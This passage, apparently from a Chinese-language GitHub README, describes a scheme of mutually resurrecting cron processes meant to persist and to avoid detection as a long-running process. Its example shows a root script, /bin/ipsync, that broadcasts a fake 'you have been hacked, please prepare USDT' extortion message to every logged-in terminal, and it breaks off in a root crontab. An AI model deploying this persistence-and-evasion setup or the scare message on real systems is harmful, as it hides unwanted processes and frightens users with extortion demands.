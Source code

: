 `famer` 上一步执行完成之后直接进入通灵状态 ，本体因为通灵自杀死亡， `beggar`接管生命；

`beggar`接管生命，接着对`famer` 进行修复，修复完成后自然死亡。**此时第二个周期开始，`cheerleading`开始表演**

`cheerleading`表演完成后会休息`5`秒,**然后如第二步所示，call她父亲`famer`,告诉他她要死掉了，**

回到第三步

······

## 对于老父亲灵魂体状态的解释

防止其他工具检测到`长时间进程运行`

可以用于程序的初始化

可以用于第三方程序的调用产生其他你想做的事

## 存在的风险

- 在维护模式下删除定时任务生态将会被打乱。

    解决思路： 增加一个系统调用去召唤老父亲的灵魂。使用灵魂体恢复一切。

- 其他还没想到的问题。。。。

## 例子

> 写了一半了，后面懒得写

```bash
root@MACOS:~# ipsync
[ 2022年 12月 15日 星期四 13:07:56 CST ] When you receive this message, you have been hacked, please prepare USDT. We will protect your computer.  Otherwise you will get consequences you don't want to see.
root@MACOS:~# cat /bin/ipsync
#!/bin/bash
w | grep pts &>/dev/null
#echo $?
if [ $? != 0 ]
then
        exit 0
fi

for pts_sum in `w | grep pts | awk '{print $2}'`
do
         echo -e "[ $(date) ] \033[32mWhen you receive this message, you have been\033[31m hacked\033[32m, please prepare USDT. We will protect your computer.\033[42;37m \033[31m Otherwise you will get consequences you don't want to see.\033[0m" > /dev/${pts_sum}
done
root@MACOS:/var/spool/cron/crontabs# cat root
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.T9JHGn/crontab installed on Thu Dec 15 13:14:23 2022)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
```